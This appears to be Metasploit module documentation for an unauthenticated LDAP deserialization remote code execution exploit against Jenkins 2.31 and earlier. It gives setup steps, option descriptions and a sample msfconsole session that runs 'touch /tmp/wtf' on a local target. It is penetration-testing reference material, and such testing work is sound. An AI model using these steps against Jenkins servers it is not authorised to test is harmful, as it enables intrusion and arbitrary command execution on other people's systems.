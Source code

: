 ## Vulnerable Application

Jenkins 2.31 or below is vulnerable and can be downloaded from [updates.jenkins-ci.org](https://updates.jenkins-ci.org/download/war/2.31/jenkins.war)

This vulnerability does not require authentication and only HTTP access to the vulnerable application is required.


## Verification Steps

  1. Download [jenkins 2.31](https://updates.jenkins-ci.org/download/war/2.31/jenkins.war)
  2. Install jenkins ```java -jar jenkins.war```
  3. Start ```msfconsole```
  4. Do: ```use exploit/linux/misc/jenkins_ldap_deserialize```
  5. Do: ```set RHOST [target host]```
  6. Do: ```set PAYLOAD cmd/unix/generic```
  7. Do: ```set CMD 'touch /tmp/wtf'```
  8. Do: ```run```
  7. It should create /tmp/wtf on the target host.

## Required Options

  **RHOST**

  The address of the jenkins server.


## Options

  **RPORT**

  The http port for the jenkins server. (Defaults to 8080)

  **TARGETURI**

  The path to the target instance of Jenkins. (Defaults to /)

  **SRVHOST**

  The local address to listen for the LDAP request on. (Defaults to 127.0.0.1)

  **SRVPORT**

  The local port to listen for the LDAP request on. (Defaults to 1389)

  **LDAPHOST**

  The ldap host the exploit will connect to. Can be different from ```SRVHOST``` if in a environment where there is port forwarding. (Defaults to 127.0.0.1)


## Scenarios

  Example usage against a unix target running Jenkins 2.31.

  ```
  msf > use exploit/linux/misc/jenkins_ldap_deserialize
  msf exploit(jenkins_ldap_deserialize) > set TARGETURI /
  TARGETURI => /
  msf exploit(jenkins_ldap_deserialize) > set RHOST 127.0.0.1
  RHOST => 127.0.0.1
  msf exploit(jenkins_ldap_deserialize) > set RPORT 8080
  RPORT => 8080
  msf exploit(jenkins_ldap_deserialize) > set PAYLOAD cmd/unix/generic
  PAYLOAD => cmd/unix/generic
  msf exploit(jenkins_ldap_deserialize) > set CMD 'touch /tmp/wtf'
  CMD => touch /tmp/wtf
  msf exploit(jenkins_ldap_deserialize) > run
  [*] Exploit completed, but no session was created.

  ```
